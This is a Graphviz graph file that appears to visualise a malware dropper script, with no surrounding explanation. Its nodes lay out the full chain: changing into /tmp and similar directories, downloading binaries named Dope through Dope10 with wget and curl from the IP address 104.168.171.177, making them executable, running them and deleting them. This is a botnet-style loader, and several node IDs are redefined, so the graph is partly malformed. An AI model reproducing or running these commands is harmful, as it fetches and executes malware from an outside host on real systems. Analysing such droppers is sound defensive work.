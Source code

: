digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://104.168.171.177/Dope "];
10 -> 12 [label=";,"];
12 [label="curl -O http://104.168.171.177/Dope "];
12 -> 14 [label=";,"];
14 [label="chmod +x Dope "];
14 -> 16 [label=";,"];
16 [label="./Dope "];
16 -> 18 [label=";,"];
18 [label="rm -rf Dope "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://104.168.171.177/Dope1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://104.168.171.177/Dope1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x Dope1 "];
34 -> 36 [label=";,"];
36 [label="./Dope1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf Dope1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://104.168.171.177/Dope2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://104.168.171.177/Dope2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Dope2 "];
54 -> 56 [label=";,"];
56 [label="./Dope2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Dope2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://104.168.171.177/Dope3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://104.168.171.177/Dope3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Dope3 "];
74 -> 76 [label=";,"];
76 [label="./Dope3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Dope3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://104.168.171.177/Dope4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://104.168.171.177/Dope4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x Dope4 "];
94 -> 96 [label=";,"];
96 [label="./Dope4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf Dope4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://104.168.171.177/Dope5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://104.168.171.177/Dope5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x Dope5 "];
114 -> 116 [label=";,"];
116 [label="./Dope5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf Dope5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://104.168.171.177/Dope6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://104.168.171.177/Dope6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Dope6 "];
134 -> 136 [label=";,"];
136 [label="./Dope6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Dope6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://104.168.171.177/Dope7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://104.168.171.177/Dope7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Dope7 "];
154 -> 156 [label=";,"];
156 [label="./Dope7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Dope7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://104.168.171.177/Dope8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://104.168.171.177/Dope8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x Dope8 "];
174 -> 176 [label=";,"];
176 [label="./Dope8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf Dope8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://104.168.171.177/Dope9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://104.168.171.177/Dope9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x Dope9 "];
194 -> 196 [label=";,"];
196 [label="./Dope9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf Dope9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://104.168.171.177/Dope10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://104.168.171.177/Dope10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x Dope10 "];
214 -> 216 [label=";,"];
216 [label="./Dope10 "];
216 -> 217 [label=";,"];
}
